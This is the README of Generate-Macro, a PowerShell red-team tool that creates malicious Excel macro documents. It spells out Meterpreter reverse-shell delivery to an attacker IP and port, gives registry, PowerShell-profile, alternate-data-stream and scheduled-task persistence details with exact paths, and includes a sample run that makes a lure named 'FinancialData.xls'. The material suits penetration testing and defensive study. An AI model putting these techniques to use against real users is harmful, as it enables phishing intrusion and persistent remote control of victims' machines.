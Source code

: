 <h2>Coded by Matt Nelson (@enigma0x3)</h2>

<h4>SYNOPSIS</h4>
Generate-Macro is a standalone PowerShell script that will generate a malicious Microsoft Office document with a specified payload and persistence method.

<h4>DESCRIPTION</h4>
This script will generate malicious Microsoft Excel Documents that contain VBA macros. 
This script will prompt you for an IP address and port (you will receive your shell at this address and port) and the name of the malicious document. From there, the script will then prompt you to choose from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

<i>These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> <a href="https://www.twitter.com/mattifestation" target="_blank">@mattifestation</a></i>

<h4>ATTACK TYPES</h4><ul>
<li>Meterpreter Shell with Logon Persistence: <br />
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.</li>

<li>Meterpreter Shell with PowerShell Profile Persistence: <br />
This attack requires the target user to have Administrator privileges but is quite creative. 
It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. 
Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.</li>

<li>Meterpreter Shell with Alternate Data Stream Persistence: <br />
This attack will give you a shell and then persists my creating 2 alternate data streams attached to the AppData
folder. It then creates a registry key that parses the Alternate Data Streams and runs the Base64 encoded payload.</li>

<li>Meterpreter Shell with Scheduled Task Persistence: <br />
This attack will give you a shell and then persist by creating a scheduled task with the action set to
the set payload.</li>

<h4>EXAMPLE</h4>
```
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
```
